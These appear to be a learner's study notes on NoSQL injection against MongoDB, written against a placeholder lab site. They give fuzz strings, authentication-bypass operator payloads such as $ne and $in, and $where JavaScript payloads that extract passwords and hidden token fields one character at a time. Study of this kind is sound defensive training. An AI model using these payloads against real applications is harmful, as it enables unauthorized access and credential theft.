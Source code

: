 -  NoSQL syntax injection - break nosql syntax and execute query 
-  Operator injection - abuse nosql operatoors like $where
  


## NoSQL syntax injection

- like sql injection in queries `break the query syntax` and exploit

#### Detecting syntax injection in MongoDB


- test each input by submitting fuzz strings and special characters

#### FUZZ STRINGS

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```


#### TESTING

https://insecure-website.com/product/lookup?category=fizzy

in sever the query is handled as 

``this.category == 'fizzy'``

- we handle fizzy as input 

- now fuzz the input with the *FUZZ STRINGS*

- check the response and analyse

- determine which character is processed like single quote or double quote

``this.category == '''``

`this.category == '\''`

- now we check for boolean influence (eg to bypass or data retrieval)


- for false output expectation
`https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x`
- here no categories are displayed since query is false ,

- for true 
`https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x`
- suggests that the false condition impacts the query logic
- here the category fizzy displayed so ==boolean influence==


#### Overriding existing conditions

- use or `||` operator like output always returns true

`https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1`

- here the server query seems ,

`this.category == 'fizzy'||'1'=='1'`

- thus existing condition overrides and displays all categories


- ==MongoDB may ignore all characters after a null character==

- if server query is 

``this.category == 'fizzy' && this.released == 1``

after null character injection in fizzy as input


`this.category == 'fizzy'\u0000' && this.released == 1`

this would display unreleased object



## operator injection


- operator provide ways to specify conditions to fetch data from db 

- $where, $ne , $in , $regex https://chatgpt.com/share/67641e0a-8aec-800a-8b66-c2ec7950455c


### Injecting into query operators

1) if the server query is
`{"username":"wiener"}
- this queries with the user name = wiener , if data returned from server it returns in response

here we can control wiener input

`{"username":{"$ne":"invalid"}}` ==> `username != invalid `which is true
- this queries the username != invalid which queries every username except invalue


2) `username=wiener` becomes `username[$ne]=invalid`


3) `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- this queries data if  username `["admin","administrator","superadmin"]` in db

doesn't work

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.


### Exfiltrating data in MongoDB

`https://insecure-website.com/user/lookup?username=admin`

the resprctive query is `{"$where":"this.username == 'admin'"}`

- `admin' && this.password[0] == 'a' || 'a'=='b` this check fot the password first char is a
  
  - `admin' && this.password.match(/\d/) || 'a'=='b` this checks for the password contains digits , change regex to check for others

- `administrator' && this.password.length < 30 || 'a'=='b` used to find length (use binary search technique)



### Extracting filed names , length , values 

```
db.user.findOne(userInfo)

let userInfo = {
    "_id": "skjfskmjfsdf",
    "username": "carlos",
    "password": {
        "$ne": ""
    },
    "$where": "function(){ return 0;}"
}

// check error message
// 1: Account Locked
// 0: Invalid

// Find the hidden field name than its value
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"

// Find the hidden field name + its length
"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0; }"

// length is 11
"$where": "function(){ if(Object.keys(this)[3].match(/^a/)) return 1; else 0; }"

// hidden field name is "unlockToken"
"$where": "function(){ if(this.unlockToken.length == 1) return 1; else 0; }"

// value length is 16
"$where": "function(){ if(this.unlockToken.match(/^a/)) return 1; else 0; }"

"$where": "function(){ if(this.unlockToken.match(/\\d/)) return 1; else 0; }"

```





